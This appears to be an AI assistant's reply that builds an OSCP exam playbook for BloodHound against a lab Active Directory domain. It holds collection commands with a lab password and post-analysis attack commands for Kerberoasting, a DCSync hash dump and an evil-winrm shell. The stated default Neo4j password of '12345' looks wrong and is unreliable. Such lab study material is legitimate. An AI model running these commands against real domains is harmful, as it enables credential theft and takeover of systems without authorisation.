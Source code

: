Perfect — I’ll generate a **complete GitHub Markdown playbook for BloodHound** that’s exam-day friendly. It includes:

* Setup and login details (Neo4j credentials)
* Independent, copy-pasteable commands (Linux + Windows)
* Explanations of what each does and what to expect
* Guidance on running analysis inside BloodHound and which queries are the most useful

Here’s the full notes file:

---

````markdown
# 🩸 BloodHound OSCP Exam Playbook

BloodHound is a graph-based tool that helps penetration testers **map Active Directory attack paths**.  
It does not exploit anything by itself; instead, it shows how compromised accounts can be leveraged to reach **Domain Admin**.

---

## ✅ Why Use BloodHound in OSCP?
- Allowed in the OSCP exam (common candidate mistake: assuming it is banned).  
- Saves hours of manual graphing of user → group → computer → privilege chains.  
- Lets you focus on **executing attacks** instead of guessing where to move next.

---

## 🔧 Install on Kali
```bash
sudo apt update
sudo apt install bloodhound neo4j -y
````

---

## 🛠️ Start Neo4j + BloodHound GUI

```bash
sudo neo4j console      # runs Neo4j database (keep this open)
bloodhound &            # opens BloodHound GUI
```

### Default Neo4j Credentials

```
Username: neo4j
Password: 12345
```

(You’ll be forced to reset on first login. Save your new password in your exam notes.)

---

## 📡 Step 1: Fix Name Resolution

BloodHound collectors need to resolve the **Domain Controller** (DC) by name, not just IP.

```bash
echo "192.168.131.122 hutchdc.hutch.offsec hutchdc" | sudo tee -a /etc/hosts
```

Check it works:

```bash
getent hosts hutchdc.hutch.offsec
# Expected: 192.168.131.122 hutchdc.hutch.offsec hutchdc
```

---

## 🐍 Step 2: Collect Data from Kali (bloodhound-python)

### Full Collection (best if network is stable)

```bash
bloodhound-python \
  -u 'fmcsorley' \
  -p 'CrabSharkJellyfish192' \
  -d hutch.offsec \
  -dc hutchdc.hutch.offsec \
  -c all \
  --auth-method ntlm \
  --dns-tcp \
  -ns 192.168.131.122 \
  --zip
```

**Explanation**

* `-u / -p`: domain creds you cracked.
* `-d`: domain name (from LDAP/kerbrute).
* `-dc`: DC FQDN.
* `-c all`: run all collection modules.
* `--zip`: bundle JSON into one `.zip`.
* `--auth-method ntlm`: avoids Kerberos ticket issues.
* `-ns`: force DNS queries to the DC itself.

**Expected output**:

```
INFO: Found 1 domains
INFO: Found 18 users
INFO: Found 52 groups
INFO: Saved data to ./20250913_1500_bloodhound.zip
```

### Minimal Collection (faster, avoids session timeout)

```bash
bloodhound-python \
  -u 'fmcsorley' \
  -p 'CrabSharkJellyfish192' \
  -d hutch.offsec \
  -dc hutchdc.hutch.offsec \
  -c Group,LocalAdmin,ACL,ObjectProps,SPNTargets \
  --auth-method ntlm \
  --zip
```

---

## 💻 Step 3: Collect Data from Windows (optional)

If you have RCE or WinRM on a Windows domain host, you can run SharpHound directly:

```powershell
.\SharpHound.exe -c All -d hutch.offsec -DomainController hutchdc.hutch.offsec -zipfilename loot.zip
```

Copy the `.zip` back to Kali for analysis.

---

## 📊 Step 4: Import and Analyze in BloodHound

1. Launch BloodHound (`bloodhound &`).
2. Login with Neo4j creds (neo4j / your reset password).
3. Drag & drop the `.zip` into the GUI.
4. Run analysis queries from the **Analysis tab**:

### 🔎 Useful Queries

* **Shortest Paths to Domain Admins from Owned Principals**
  → Shows the chain from your compromised account to DA.

* **Find Principals with DCSync Rights**
  → If your user has “GetChanges” + “GetChangesAll” → perform a DCSync attack.

* **Find Kerberoastable Users**
  → Accounts with SPNs that can be roasted.

* **Find AS-REP Roastable Accounts**
  → Users without Kerberos pre-auth (attack without knowing a password).

* **Map Domain Trusts**
  → Only relevant if multiple domains exist.

### Expected Output

You’ll see a **graph** of nodes (users, groups, computers) connected by edges (permissions, admin rights, group membership).
Follow the **red highlighted path** to Domain Admin.

---

## 🧠 Common Mistakes (Avoid These in Exam)

* ❌ Forgetting to update `/etc/hosts` → collector crashes with “Name or service not known.”
* ❌ Only saving console logs → GUI needs the **JSON/ZIP**, not logs.
* ❌ Depending only on BloodHound → always confirm edges with manual tools (`ldapsearch`, `rpcclient`, `powerview`).
* ❌ Assuming it’s banned → it is allowed in OSCP.
* ❌ Running with no creds → data is very limited. Crack one password first.

---

## 🚀 Step 5: Execute Attacks (Post-Analysis)

BloodHound only shows the map. You must execute the edges:

* **Kerberoastable user found**:

  ```bash
  GetUserSPNs.py hutch.offsec/fmcsorley:'CrabSharkJellyfish192' -dc-ip 192.168.131.122 -request
  ```

  Crack tickets with hashcat mode 13100.

* **DCSync rights found**:

  ```bash
  secretsdump.py hutch.offsec/fmcsorley:'CrabSharkJellyfish192'@192.168.131.122 -just-dc
  ```

* **Local Admin edge**:

  ```bash
  evil-winrm -i 192.168.131.122 -u fmcsorley -p 'CrabSharkJellyfish192'
  ```

---

## 📝 TL;DR Exam Workflow

1. Enumerate usernames (kerbrute, LDAP).
2. Crack one password (AS-REP roast).
3. Run `bloodhound-python ... --zip`.
4. Import into BloodHound GUI.
5. Run “Shortest Paths to DA.”
6. Confirm steps manually.
7. Execute → Domain Admin → root.txt.

---

# 🔖 Quick Copy-Paste Cheat Sheet

```bash
# Fix name resolution
echo "192.168.131.122 hutchdc.hutch.offsec hutchdc" | sudo tee -a /etc/hosts

# Full collection
bloodhound-python -u 'fmcsorley' -p 'CrabSharkJellyfish192' -d hutch.offsec -dc hutchdc.hutch.offsec -c all --auth-method ntlm --dns-tcp -ns 192.168.131.122 --zip

# Minimal collection
bloodhound-python -u 'fmcsorley' -p 'CrabSharkJellyfish192' -d hutch.offsec -dc hutchdc.hutch.offsec -c Group,LocalAdmin,ACL,ObjectProps,SPNTargets --auth-method ntlm --zip

# Start services
sudo neo4j console
bloodhound &
```

---

```

---

```
